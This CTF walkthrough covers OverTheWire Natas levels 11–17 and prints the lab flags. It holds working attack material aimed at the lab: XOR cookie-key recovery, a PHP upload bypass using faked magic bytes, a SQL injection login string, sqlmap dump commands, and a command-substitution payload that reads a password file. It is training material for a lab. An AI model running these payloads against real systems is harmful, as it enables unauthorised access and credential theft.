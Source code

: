 # Natas11
In this level you need to know what is [XOR Encryption](https://stackoverflow.com/questions/2029426/what-is-xor-encryption)

```
a ^ b =c
a ^ c =b
b ^ c =a
a ^ a =0
a ^ 0 =a
```
Source code :
```php
<?

$defaultdata = array("showpassword"=>"no", "bgcolor"=>"#ffffff");

function xor_encrypt($in) {
    $key = '<censored>';
    $text = $in;
    $outText = '';

    // Iterate through each character
    for($i=0;$i<strlen($text);$i++) {
    $outText .= $text[$i] ^ $key[$i % strlen($key)];
    }

    return $outText;
}

function loadData($def) {
    global $_COOKIE;
    $mydata = $def;
    if(array_key_exists("data", $_COOKIE)) {
    $tempdata = json_decode(xor_encrypt(base64_decode($_COOKIE["data"])), true);
    if(is_array($tempdata) && array_key_exists("showpassword", $tempdata) && array_key_exists("bgcolor", $tempdata)) {
        if (preg_match('/^#(?:[a-f\d]{6})$/i', $tempdata['bgcolor'])) {
        $mydata['showpassword'] = $tempdata['showpassword'];
        $mydata['bgcolor'] = $tempdata['bgcolor'];
        }
    }
    }
    return $mydata;
}

function saveData($d) {
    setcookie("data", base64_encode(xor_encrypt(json_encode($d))));
}

$data = loadData($defaultdata);

if(array_key_exists("bgcolor",$_REQUEST)) {
    if (preg_match('/^#(?:[a-f\d]{6})$/i', $_REQUEST['bgcolor'])) {
        $data['bgcolor'] = $_REQUEST['bgcolor'];
    }
}

saveData($data);



?>

```
The main idea of the code is to encrypted {"showpassword"=>"no", "bgcolor"=>"#ffffff"} and then set it to the cookie, According to the formula above, we know that we can xor cipher and paintext to get the encrypt key, modified the plaintext and use the same key to encrypt it. 
It might take a long time to figure out what happened but it surely worth the time you spend.<br>
## [script answer](https://github.com/leohammer123/CTF/blob/main/overthewire/Natas/src/level11.py)
<br>flag:EDXp0pS26wLKHZy1rDBPUZk0RKfLGIR3
## Natas12
[File upload Vulnerability](https://owasp.org/www-community/vulnerabilities/Unrestricted_File_Upload)
## In the Source code
```php
  if(filesize($_FILES['uploadedfile']['tmp_name']) > 1000) {
        echo "File is too big";
    } else {
        if(move_uploaded_file($_FILES['uploadedfile']['tmp_name'], $target_path)) {
            echo "The file <a href=\"$target_path\">$target_path</a> has been uploaded";
        } else{
            echo "There was an error uploading the file, please try again!";
        }
``` 

## In the html 
```html
<input type="hidden" name="filename" value="<? print genRandomString(); ?>.jpg" />
```
The server get the post filename without any check so you can modified it to some other suffix such as .html or .php which can render by the browser.

## [php payload](https://github.com/leohammer123/CTF/blob/main/overthewire/Natas/src/level12.php)
<br>flag:jmLTY0qiPZBbaKc9341cqPQZBJv7MQbY
# Natas13
In this level they add a exif_imagetype to check if the file is picture or not,but this function only check the [magic byte](https://www.netspi.com/blog/technical/web-application-penetration-testing/magic-bytes-identifying-common-file-formats-at-a-glance/) of the file. So it's actully very weak. Just adding some bytes in the file the function will identify php file as image.
## [python3 script to add bytes](https://github.com/leohammer123/CTF/blob/main/overthewire/Natas/src/level13.py)
## [final file](https://github.com/leohammer123/CTF/blob/main/overthewire/Natas/src/level13.php)
flag:Lg96M10TdfaPyVBkJdjymbllQ5L6qdl1
# Natas14
## [SQL injection](https://portswigger.net/web-security/sql-injection)
```
name : natas15" --  #space are required
password : what ever you want
```
flag:AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J
# Natas15
In this level we have to do an [SQL injection UNION attack](https://portswigger.net/web-security/sql-injection/union-attacks) , insteat of test for many times we use [sqlmap](https://sqlmap.org/) to get users table's value.
```
 sqlmap -u "http://natas15.natas.labs.overthewire.org/index.php?debug" --string="This user exists" --auth-type=Basic --auth-cred=natas15:AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J --data "username=natas16" --level=5 --risk=3 -D natas15 -T users -C username,password --dump   
```
We have the following table.<br>
![img](https://github.com/leohammer123/CTF/blob/main/overthewire/Natas/image/table.png)
flag:WaIHEacj63wnNIBROHeqi3p9t0m5nhmh    
# Natas16
This level is similar  to the previous one, also need to inject some code, in this time they filtered more characters,but we can use [$()](https://askubuntu.com/questions/833833/what-does-command-do) to exploit.
```
payload : lasts$(grep a /etc/natas_webpass/natas17)
actually execute code : grep -i lasts$(grep a /etc/natas_webpass/natas17) dictionary.txt
```
The code actually grep lasts + the line in the natas17 file if it contains the letter a, and it will return nothing cause it dosen't match any of the string in the dictionary.txt file.<br>
## [python3 solution](https://github.com/leohammer123/CTF/blob/main/overthewire/Natas/src/level16.py)
 <br> flag:8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9cw
# Natas17
Another SQL injection, use sqlmap to solve it.
```
sqlmap -u "http://natas17.natas.labs.overthewire.org/index.php" --data=username=natas18 --auth-type=basic --auth-cred=natas17:8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9cw --level=5 --risk=3 --dbms=mysql -D natas17 -T users --dump  
```
![pic](https://github.com/leohammer123/CTF/blob/main/overthewire/Natas/image/lv17.png)
flag:xvKIqDjy4OPv7wCRgDlmj0pFsCsDjhdP


